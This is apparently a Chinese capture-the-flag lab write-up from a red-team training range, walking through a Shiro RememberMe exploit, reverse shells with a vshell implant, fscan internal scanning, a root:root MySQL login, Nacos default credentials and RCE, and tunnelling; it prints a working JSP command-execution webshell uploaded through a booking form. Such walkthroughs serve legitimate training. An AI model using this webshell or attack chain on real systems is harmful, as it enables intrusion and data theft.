初识内网 开启靶机，是个 web 登录页面，有 RememberMe ：

因此猜测可能有 Shiro 的漏洞，直接用工具进行测试，发现确实有漏洞：

但是找了一圈没有发现 flag ，猜测可能不是寻找 flag 文件，因此我们需要想办法探测内网的其他服务。
测试发现靶机可以出网，因此我们可以进行反弹 shell 。
使用 贝锐花生壳 配置好 内网穿透 ，把我们 kali 的一个端口给穿透出去：

他会给我们一个公网的地址和端口，后续我们在靶机上的操作都是和这个公网地址进行通信。
我准备用这个 1234 端口来监听我的 vshell ，因此在 vshell 里面进行如下的配置：

在 vshell 上生成木马之后，把这个文件用靶机内的 busybox nc 来传给靶机，然后运行，我们的 vshell 就收到靶机上线了：

上传 fscan ，扫描内网：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 bash-4.2# ip a 1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000 link /loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00 inet 127.0.0.1/8 scope host lo valid_lft forever preferred_lft forever 124: eth0@if125: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP link /ether 02:42:ac:15:00:03 brd ff:ff:ff:ff:ff:ff inet 172.21.0.3/16 brd 172.21.255.255 scope global eth0 valid_lft forever preferred_lft forever bash-4.2# ./fscan -h 172.21.0.1/24 ___ _ / _ \ ___ ___ _ __ __ _ ___| | __ / /_\/____/ __|/ __| '__/ _` |/ __| |/ / / /_\\_____\__ \ (__| | | (_| | (__| < \____/ |___/\___|_| \__,_|\___|_|\_\ fscan version: 1.8.4 start infoscan (icmp) Target 172.21.0.1 is alive (icmp) Target 172.21.0.2 is alive (icmp) Target 172.21.0.3 is alive [*] Icmp alive hosts len is: 3 172.21.0.2:3000 open 172.21.0.3:3306 open 172.21.0.1:22 open 172.21.0.1:888 open 172.21.0.1:80 open 172.21.0.3:8080 open 172.21.0.2:8080 open [*] alive ports len is: 7 start vulscan [*] WebTitle http://172.21.0.1:888 code:404 len:548 title:404 Not Found [*] WebTitle http://172.21.0.1 code:200 len:138 title:404 Not Found [*] WebTitle http://172.21.0.2:8080 code:200 len:1100 title:浙江大学红队渗透培训::CTF [*] WebTitle http://172.21.0.2:3000 code:200 len:1100 title:浙江大学红队渗透培训::CTF [*] WebTitle http://172.21.0.3:8080 code:200 len:501 title:OA 协同办公系统 [+] mysql 172.21.0.3:3306:root root
扫描结果显示，本地开启了 mysql ，而且账号密码是 root:root 。
靶机内部连接 mysql：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 bash-4.2# mysql -u root -proot mysql: [Warning] Using a password on the command line interface can be insecure. Welcome to the MySQL monitor. Commands end with ; or \g. Your MySQL connection id is 11 Server version: 5.7.44 MySQL Community Server (GPL) Copyright (c) 2000, 2023, Oracle and/or its affiliates. Oracle is a registered trademark of Oracle Corporation and/or its affiliates. Other names may be trademarks of their respective owners. Type 'help;' or '\h' for help . Type '\c' to clear the current input statement. mysql> show databases; +--------------------+ | Database | +--------------------+ | information_schema | | ctf | | mysql | | performance_schema | | sys | +--------------------+ 5 rows in set (0.00 sec) mysql> use ctf; Reading table information for completion of table and column names You can turn off this feature to get a quicker startup with -A Database changed mysql> show tables; +---------------+ | Tables_in_ctf | +---------------+ | flags | +---------------+ 1 row in set (0.00 sec) mysql> select * from flags; +----+--------------------------------------------+ | id | flag | +----+--------------------------------------------+ | 1 | flag{a742aa5f-e5a0-479f-b67c-ceac6ec7d2f2} | +----+--------------------------------------------+ 1 row in set (0.00 sec) mysql>
获得了 flag 。
Nacos 题目说是 Nacos ，网上搜索了解到 Nacos 的默认目录为 /nacos ，直接访问：

是个登录页面，尝试使用默认账号密码 nacos:nacos 进行登录，登录成功了：

其中有个提示，说我们要关注一下内网的 172.21.0.3:8081 这个服务：

因此我们需要打入内网。
去网上寻找 Nacos 的漏洞，发现了一个 nacos_derby_rce

然后用 Behinder 进行连接：

弹了个 shell 到 kali 上，方便后续渗透：

这里本来想用 chisel 进行代理的，但是我没有公网 ip ，单一个花生壳还是不太好连接 chisel ，因此我们上传一个 vshell 的木马，连接 vshell ：

我们现在本身就是 172.21.0.3 的机器，而且用户还是 root ，因此其实我们可以直接找 flag ，但我们还是打一下前面给的提示 8081 端口。
先上传 fscan 进行扫描：

看上去 8081 是个 web 服务，我们在 vshell 上开一个隧道：

配置好自己浏览器的代理：

然后就可以访问 http://172.21.0.3:8081 了：

可以看到是个进校预约的系统，然后这里需要先注册一下，我上面是已经注册过的样子，随便注册一个就好了。
之后我们进入预约：

有个上传文件的地方，我们上传一个 jsp 的木马：
1 2 3 4 5 6 <% if (request.getParameter("cmd" )!=null ){ String[] cmdArr = {"/bin/sh" ,"-c" ,request.getParameter("cmd" )}; Process p = Runtime.getRuntime().exec(cmdArr); java.io.BufferedReader br = new java .io.BufferedReader(new java .io.InputStreamReader(p.getInputStream())); String l; while ((l=br.readLine())!=null ){ out.println(l); } } %>

接着访问这个路径获得 webshell ：

反弹 shell 之后，在 /opt/inner-web/private 下找到了 flag ：
